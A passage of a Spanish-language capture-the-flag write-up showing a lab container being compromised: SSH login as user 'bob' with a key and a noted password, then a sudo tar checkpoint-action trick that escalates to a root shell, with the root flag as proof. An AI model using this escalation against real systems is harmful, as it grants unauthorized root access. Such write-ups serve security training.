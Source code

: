 Ahora migramos al usuario **bob**
```bash
ssh -i id_rsa bob@172.17.0.2 # ( cyb3r_s3curity )
```

###### Usuario `[ bob ]`:
Listando los permisos para este usuario tenemos estos permisos:
```bash
sudo -l

User bob may run the following commands on 8b13005030df:
    (ALL) NOPASSWD: /bin/tar
```

Explotamos el privilegio:
```bash
comando para migrar al usuario: ( root )
sudo -u root tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

---

## Evidencia de Compromiso
Flags:
```bash
-rw-r--r--  1 root root 10240 Nov 25  2024 archive.tar
-rw-r--r--  1 root root    31 Nov 25  2024 root.txt
```

```bash
# Captura de pantalla o output final
root@8b13005030df:~# whoami
root
```

---
